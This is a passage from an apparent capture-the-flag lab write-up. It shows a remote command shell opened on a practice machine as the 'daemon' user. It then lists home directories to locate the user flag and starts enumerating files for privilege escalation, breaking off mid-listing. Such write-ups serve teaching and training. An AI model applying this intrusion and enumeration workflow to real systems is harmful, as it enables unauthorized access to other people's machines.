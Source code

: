 ```
[*] Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.3:53836 ) at 2022-08-16 23:02:26 -0400

ls
5563.jsvc_up
vgauthsvclog.txt.0
vmware-root
whoami
daemon
bash
```

And a it can be seen, we easily get access to the machine as the `daemon` account. We can now explore the user directories in `/home` to find the user flag. In this case there were 4 users directories as shown below and user flag was in the `/home/makis` directory.
```
ls -la /home
total 24
drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
drwxr-xr-x 21 root    root    4096 Oct 31  2020 ..
drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
drwxr-xr-x  4 makis   makis   4096 Aug 17 06:25 makis
drwxr-xr-x  2 service service 4096 Apr 16  2010 service
drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
```

## Privilege Escalation
The next task is to perform privilege escalation. So, we can get started by exploring all the user files and see if we can file some interesting executables or something else.
```
ls -la /home
total 24
drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
drwxr-xr-x 21 root    root    4096 Oct 31  2020 ..
drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
drwxr-xr-x  4 makis   makis   4096 Aug 17 06:25 makis
drwxr-xr-x  2 service service 4096 Apr 16  2010 service
drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
ls -la /home/ftp
total 8
drwxr-xr-x 2 root nogroup 4096 Mar 17  2010 .
drwxr-xr-x 6 root root    4096 Mar 14  2017 ..
ls -la /home/makis
total 36
drwxr-xr-x 4 makis makis 4096 Aug 17 06:25 .
drwxr-xr-x 6 root  root  4096 Mar 14  2017 ..
-rw------- 1 makis makis 1107 Mar 14  2017 .bash_history
-rw-r--r-- 1 makis makis  220 Mar 14  2017 .bash_logout
-rw-r--r-- 1 makis makis 2928 Mar 14  2017 .bashrc
drwx------ 2 makis makis 4096 Aug 17 06:25 .gconf
drwx------ 2 makis makis 4096 Aug 17 06:25 .gconfd
-rw-r--r-- 1 makis makis  586 Mar 14  2017 .profile
-rw-r--r-- 1 makis makis    0 Mar 14  2017 .sudo_as_admin_successful
-rw-r--r-- 1 makis makis   33 Aug 16 22:40 user.txt
ls -la /home/service
total 20
drwxr-xr-x 2 service service 4096 Apr 16  2010 .
drwxr-xr-x 6 root    root    4096 Mar 14  2017 ..
-rw-r--r-- 1 service service  220 Apr 16  2010 .bash_logout
-rw-r--r-- 1 service service 2928 Apr 16  2010 .bashrc
-rw-r--r-- 1 service service  586 Apr 16  2010 .profile
ls -la /home/user
total 28
```